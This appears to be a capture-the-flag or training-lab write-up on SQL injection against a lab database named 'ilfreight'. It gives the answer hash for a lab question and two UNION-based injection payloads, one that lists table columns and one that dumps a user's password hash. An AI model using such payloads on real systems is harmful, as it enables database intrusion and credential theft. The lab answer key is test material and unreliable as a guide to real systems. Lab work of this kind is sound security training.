


## Questions and Solutions

- What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?
	- **9da2c9bcdf39d8610954e0e11ea8f45f**


#### Finding Columns of `users` table

The below payload is used to display all the columns present in the `user` table inside the `ilfreight` database.

```mysql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

##### OUTPUT 

Below is the output of the above payload.




#### Dumping data of `newuser` from `users` table

The below payload dumps the data from the `user` table.

```mysql
cn' UNION select 1,username, password, 4 from ilfreight.users WHERE username='newuser'-- -
```

#### OUTPUT

Below is the hash value we got as output by supplying the above payload.



